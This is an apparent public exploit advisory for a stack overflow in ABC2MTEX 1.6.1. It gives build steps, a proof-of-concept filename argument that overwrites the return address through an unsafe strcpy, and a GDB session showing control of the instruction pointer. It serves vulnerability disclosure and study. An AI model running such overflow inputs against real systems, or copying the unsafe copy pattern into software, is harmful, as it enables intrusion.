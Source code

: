 EXP
---

    Exploit Title: ABC2MTEX 1.6.1 - Command Line Stack Overflow
    Date: 2019-08-13
    Exploit Author: Carter Yagemann <yagemann@gatech.edu>
    Vendor Homepage: https://abcnotation.com/abc2mtex/
    Software Link: https://github.com/mudongliang/source-packages/raw/master/CVE-2004-1257/abc2mtex1.6.1.tar.gz
    Version: 1.6.1
    Tested on: Debian Buster

    An unsafe strcpy at abc.c:241 allows an attacker to overwrite the return
    address from the openIn function by providing a long input filename. This
    carries similar risk to CVE-2004-1257.

    Setup:

    $ wget https://github.com/mudongliang/source-packages/raw/master/CVE-2004-1257/abc2mtex1.6.1.tar.gz
    $ tar -xzf abc2mtex1.6.1.tar.gz
    $ make

    $ gcc --version
    gcc (Debian 8.3.0-6) 8.3.0
    Copyright (C) 2018 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

    PoC:

    $ ./abc2mtex AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFEDCBA

    GDB:

    We're going to place a breakpoint before and after abc.c:241 to show the overflow.

    $ gdb -q ./abc2mtex
    Reading symbols from ./abc2mtex...done.
    (gdb) break abc.c:241
    Breakpoint 1 at 0x4139: file abc.c, line 241.
    (gdb) break abc.c:242
    Breakpoint 2 at 0x414c: file abc.c, line 242.
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFEDCBA
    Starting program: /tmp/tmp.4jy8nhwOI3/abc2mtex AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFEDCBA

    Breakpoint 1, openIn (filename=0x7fffffffe240 'A' <repeats 120 times>, "FEDCBA") at abc.c:241
    241                     (void) strcpy(savename,filename);
    (gdb) bt
    #0  openIn (filename=0x7fffffffe240 'A' <repeats 120 times>, "FEDCBA") at abc.c:241
    #1  0x0000555555556f00 in main (argc=2, argv=0x7fffffffe4f8) at fields.c:273
    (gdb) c
    Continuing.

    Breakpoint 2, openIn (filename=0x7fffffffe240 'A' <repeats 120 times>, "FEDCBA") at abc.c:242
    242                     (void) strcat(filename,".abc");
    (gdb) bt
    #0  openIn (filename=0x7fffffffe240 'A' <repeats 120 times>, "FEDCBA") at abc.c:242
    #1  0x0000414243444546 in ?? ()
    #2  0x00007fffffffe4f8 in ?? ()
    #3  0x0000000200000000 in ?? ()
    #4  0x0000000000000000 in ?? ()
    (gdb) c
    Continuing.
    file "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFEDCBA" does not exist

    Program received signal SIGSEGV, Segmentation fault.
    0x0000414243444546 in ?? ()
    (gdb) quit
